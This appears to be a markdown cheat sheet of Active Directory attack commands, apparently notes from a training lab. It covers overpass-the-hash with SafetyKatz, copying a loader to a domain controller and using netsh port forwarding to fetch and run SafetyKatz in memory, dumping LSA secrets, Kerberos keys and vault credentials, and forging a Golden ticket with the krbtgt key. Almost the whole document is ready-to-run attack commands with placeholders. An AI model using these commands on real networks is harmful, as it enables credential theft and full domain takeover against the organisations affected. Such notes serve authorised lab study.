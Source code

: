 
### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Copy the loader on the dc and use the port forwarding technique to use mimikatz and extract all creds
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```
```powershell
winrs -r:dcorp-dc cmd
```
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.115
```
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```
```mimikatz
lsadump::lsa /patch
```

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

### **Extract from credential vault**
```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### **Using the secrets of krbtgt account, create a Golden ticket**
Just use BetterSafetyKatz
```powershell
> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<NOME DOMINIO> /sid:<SID DC(lsa dump safetykatz> /aes256:<AES KRBTGT> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
